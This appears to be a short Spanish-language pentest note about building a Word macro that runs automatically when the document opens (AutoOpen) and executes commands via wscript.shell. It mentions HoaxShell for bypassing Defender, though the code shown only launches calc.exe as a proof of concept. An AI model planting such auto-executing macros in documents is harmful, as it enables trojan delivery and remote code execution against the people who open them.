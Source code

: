 ```yaml
---
tags: [pentest]
created: 2024-12-21

---
```

----
- tags: #macros #word #excel #microsoft #office #troyano #windows #powerpoint #rce 
---

> En un documento Word vamos a **Vista**, después a **Macros** **Ver Macros**.

![[Pasted image 20240204183006.png|800]]

> Le pondremos de nombre **AutoExec**, **seleccionaremos el documento actual** y haremos clic en **Crear**

![[Pasted image 20240204183345.png]]

> Ponemos nuestro código sacado de esta página donde usan HoaxShell para bypassear Defender (https://infayer.com/archivos/1917) y luego crean una macro en Word con ello.

```
Sub AutoOpen()

    Dim Shell As Object
    Set Shell = CreateObject("wscript.shell")
    Shell.Run "calc.exe"

End Sub
```


![[Pasted image 20240204183538.png|800]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
